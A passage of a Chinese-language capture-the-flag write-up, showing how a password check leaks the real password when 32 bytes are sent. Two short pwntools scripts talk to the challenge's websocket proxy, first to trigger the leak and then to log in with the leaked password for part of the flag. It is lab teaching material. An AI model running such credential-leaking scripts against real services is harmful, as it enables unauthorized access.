 果然，在 wrongpassword 时放出了正确的密码：I_am_very_very_strong_password!!重新输入一遍进行交互，就可以得知 flag 的前半部分：

![image-20240707131837767](../../../assets/image-20240707131837767.png)

用 python 代码就这么编写：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("A"*32)
p.interactive()
```

得到：

![image-20240707133439387](../../../assets/image-20240707133439387.png)

得到正确密码，用 python 代码再交互一遍：

```python
from pwn import *
from wstube import websocket

p = websocket("wss://ctf.zjusec.com/api/proxy/796dc480-8488-48ff-b02b-448798009db6")

print(p.recvline())
p.sendline("user")
print(p.recvline())
p.sendline("32")
print(p.recvline())
p.sendline("I_am_very_very_strong_password!!")
p.interactive()
```
